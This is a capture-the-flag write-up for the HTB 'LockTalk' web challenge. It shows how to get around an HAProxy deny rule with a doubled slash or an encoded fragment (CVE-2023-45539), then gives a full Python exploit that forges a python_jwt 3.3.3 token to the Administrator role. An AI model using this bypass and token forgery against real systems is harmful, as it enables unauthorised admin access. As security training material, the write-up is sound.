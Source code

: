 ## **Description**
In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.
<br></br>
In `config.py`, we can see that the token was generated usingRSA,A so we can't bruteforce the token.

```py
JWT_SECRET_KEY = jwk.JWK.generate(kty='RSA', size=2048)
```
In `requirements.txt`, we can see that it's using an old version of JWT, `python_jwt==3.3.3`, which is vulnerable. According to this: `https://github.com/advisories/GHSA-5p8v-58qm-c7fp`

<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/HTB_cyber_apocalypse/WEB/images/4.PNG">
<br></br>
Let's open the site now. 
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/HTB_cyber_apocalypse/WEB/images/5.PNG">
<br></br>
If we tried to generate a token using `/api/v1/get_ticket` it will return `403` because of the configurations in ``haproxy.cfg``

```http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }```

We can bypass this if we add another `/`  to make it like this `//api/v1/get_ticket`
or based on this : `https://www.cvedetails.com/cve/CVE-2023-45539/`

we can just add a fragment # (encoded) `/api/v1/get_ticket#`

Both will work. After getting the JWT, we can see that we have a role `guest` Let's forge it to `Administrator`
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/HTB_cyber_apocalypse/WEB/images/6.PNG">
<br></br>
Exploit: 
```py
from requests import *
import re
from json import loads, dumps
from jwcrypto.common import base64url_decode, base64url_encode
import argparse
r=get("http://83.136.254.223:41786//api/v1/get_ticket")
js=r.json()

ticket_value = js.get('ticket: ', None)

token=ticket_value
claim="role=administrator"

# Split JWT in its ingredients
[header, payload, signature] = token.split(".")


# Payload is relevant
parsed_payload = loads(base64url_decode(payload))
print(f"[+] Decoded payload: {parsed_payload}")

# Processing of the user input and inject new claims
try:
    claims = claim.split(",")
    for c in claims:
        key, value = c.split("=")
        parsed_payload[key.strip()] = value.strip()
except:
    print("[-] Given claims are not in a valid format")
    exit(1)

# merging. Generate a new payload

fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))


# Create a new JWT Web Token
new_payload = '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
print(new_payload)

url="http://83.136.254.223:41786/api/v1/flag"
r=get(url,headers={"Authorization":new_payload})
print(r.text)
#{"message":"HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}"}
```
